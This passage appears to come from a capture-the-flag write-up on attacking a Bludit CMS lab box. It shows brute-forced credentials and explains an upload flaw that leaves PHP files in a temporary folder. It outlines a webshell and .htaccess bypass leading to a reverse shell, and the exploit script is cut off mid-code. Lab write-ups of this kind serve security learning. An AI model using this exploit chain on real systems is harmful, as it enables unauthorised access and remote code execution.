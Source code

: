 When I run it, it will show whatever password is being attempted at the moment, eventually finding one and printing that and exiting. It takes about 16 seconds:

```

root@kali# time ./bludit_brute.py wordlist 
SUCCESS: Password found!                                                                              
Use fergus:RolandDeschain to login.

real    0m16.018s
user    0m1.840s
sys     0m0.253s

```

### PHP Upload Exploit

There’s a Metasploit script that will just run this, but I want to understand what’s happening. There are two issues on GitHub about this, [1079](https://github.com/bludit/bludit/issues/1079) and [1081](https://github.com/bludit/bludit/issues/1081). The first takes advantage of the fact that when a PHP file is uploaded, it is stored in a temporary location before the extension check. If the extension check returns that the file is ok, it is moved to the right location. But if the check returns that it fails, the file is not removed from the knowable temporary location. Code won’t run out of that location due to the `.htaccess` file from the root of the project:

```

# Deny direct access to the next directories
rewriteRule ^bl-content/(databases|workspaces|pages|tmp)/.*$ - [R=404,L]

```

However, I can override that by uploading a new `.htaccess` file to that directory.

The second ([1081](https://github.com/bludit/bludit/issues/1081)) is a criticism of an incomplete fixing of the bug between versions, and as both ticket are closed with “Fixed in Bludit v3.10.0.”, I’ll focus on the first to start.

My script will take the following steps:
1. Login.
2. Get a CSRF token from the uploads page.
3. Upload the webshell as a `.php` file. Server will say it fails, but copy will still be saved in `/bl-content/tmp`.
4. Upload `.htaccess` file that turns off `RewriteEngine`.
5. Trigger webshell with reverse shell on port 443.

My script is:

```

#!/usr/bin/env python3

import netifaces as ni
import re
import requests

callback_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
username = 'fergus'
password = 'RolandDeschain'
url = 'http://10.10.10.191'

s = requests.session()

# Login
resp = s.get(f'{url}/admin/')
csrf = re.findall('name="tokenCSRF" value="([0-9a-f]{32,})"', resp.text)[0]
s.post(f'{url}/admin/', allow_redirects=False,
```